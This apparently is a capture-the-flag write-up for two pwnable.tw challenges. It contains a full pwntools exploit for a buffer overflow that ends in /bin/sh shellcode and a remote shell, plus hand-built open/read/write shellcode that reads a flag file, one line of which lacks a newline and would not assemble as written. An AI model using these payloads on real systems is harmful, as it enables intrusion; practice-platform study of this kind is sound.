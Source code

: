 # pwn.tw

## 01 start
checksec, RWX segment existed. maybe shellcode can be used.

a ASM program, calling some sys_call, like `sys_write`/'sys_read`.
and reading process is a BOF vulnerability, length of buffer is enough for a simple ROP.

hijack the second argu of `sys_write` to print out the stack info, then ret2shellcode.

```py
#!/bin/python3

from pwn import *

# io = process("./start")
# gdb.attach(io, 'b*0x08048087\nc')
io = remote("chall.pwnable.tw", 10000)

payload = b''
payload += b'A' *20
payload += p32(0x08048087)

io.sendafter(b'CTF:', payload)

stack_addr = u32(io.recv(4))
buf_addr = stack_addr - 4

shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += b"\x0b\xcd\x80"

payload2 = b''
payload2 += b'A'*20
payload2 += p32(buf_addr + 20 +4 )
payload2 += shellcode

io.sendline(payload2)

io.interactive()
```

## 02 orw

a shellcode challenage, but syscalls we can use is limited to open/read/write.

we can not launch a shell directly, but these three calls are enough to read a flag with known path (which is provided by the hint).

we will open the flag and read it to buffer, and write it to stdout.

man syscalls and `/usr/include/x86_64-linux-gnu/asm/unistd_32.h`:
```
int open(const char *pathname, int flags);		#define __NR_read 3
ssize_t read(int fd, void *buf, size_t count);		#define __NR_open 5
ssize_t write(int fd, const void *buf, size_t count);	#define __NR_write 4

path is `/home/orw/flag`, 14 bytes.
```
- pwntools
	- pwnlib.shellcraft
		```py
		shellcraft.i386.pushstr('/home/orw/flag')
		shellcraft.i386.linux.syscall('SYS_open', 'esp')
		shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
		shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)
		```
		that is:	
		```
		push '/home/orw/flag\x00'
		call open('esp')
		call read('eax', 'esp', 0x50)
			// eax is previous call's ret value, which is opened fd.
		call write(1, 'esp', 0x50)
		```
- asm
	- argu:
		- eax: calling num
		- ebx/ecx/edx/esi/edi: argu1/2/3/4/5
	- crafting:
		- push '/home/orw/flag\x00'
		```
		'///h' <-esp
		'ome/'
		'orw/'
		'flag'
		'\x00'
		```
		crafting the asm code:
		
		```py
		shellcode = ''
		shellcode += 'xor eax, eax\n push eax\n'
		
		temp = hex(u32(b'flag'))
		shellcode += 'push '+ temp + '\n'

		temp = hex(u32(b'orw/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'ome/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'///h'))
		shellcode += 'push '+ temp + '\n'
		```

		- call open('esp')
			eax: 5
			ebx: buf(esp)
			call
		
		```py
		shellcode += 'push 0x5\n pop eax\n'
		shellcode += 'mov ebx, esp\n'
		shellcode += 'int 0x80\n'
		```
		
		- call read('eax', 'esp', 0x50)
			eax: 3
			ebx: eax(fd)
			ecx: esp(buf)
			edx: 0x50(len)
		
		```py
		shellcode += 'mov ebx, eax\n'
		shellcode += 'push 0x3\n pop eax\n'
		shellcode += 'mov ecx, esp\n'
		shellcode += 'push 0x50\n pop edx'
		shellcode += 'int 0x80\n'
		```

		... omitted...

## 03 CVE-2018-1160


